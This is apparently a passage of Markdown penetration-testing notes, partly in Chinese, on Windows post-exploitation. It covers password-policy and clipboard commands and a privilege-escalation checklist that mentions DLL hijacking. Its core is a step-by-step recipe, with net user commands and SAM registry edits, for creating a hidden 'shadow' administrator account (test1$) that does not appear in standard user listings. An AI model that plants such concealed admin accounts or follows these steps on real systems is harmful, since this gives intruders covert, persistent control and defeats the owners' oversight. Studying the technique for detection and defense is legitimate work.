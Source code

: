 ### Password Policy

```bat
net account
```

### Clipboard

```powershell
powershell -command "Get-Clipboard"
```

### 影子用户

> 计算机管理>本地用户和组> 无法查看影子用户
> net user 看不到
> net localgroups 可查看，注册表可查看

+ 创建有用户test1$
+ 修改注册表，管理员完全控制hklm/sam/sam
+ 修改注册表
> domains\account\users, 替换0x3eb(test1$) F 值为管理员的值，管理员0x1f4(16进制代码，十进制500，即UID）
+ 导出注册表
> domains\account\users\000003eb
> domains\account\users\names\test1$
+ 删除test1$ 用户
+ 导入用户test1$

```bat
# 影子用户, 通过注册表创建
net user test1$ 123456
regedit # 修改reg权限，管理员完全控制 hklm/sam/sam/

# hklm/sam/sam/domains/account/users/names
# 修改F 值为管理员，导出users中F 、names中 test1$ reg
# 删除用户，reg 导入
net user test1$ /del
net user test1$ # 查看
net user test1$ /active:yes # 启用

# net user 查看无test1，实际reg中存在
```




## Running Process
+ process running with privileged account,need high privilege
+ have insecure permissions
+ allow to interact with it in unintended ways
+ passwords inside the command line of process
+ check if you can overwrite some binary running or have write permissions of the binary folder to exploit [DLL-Hijacking attact](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/dll-hijacking)
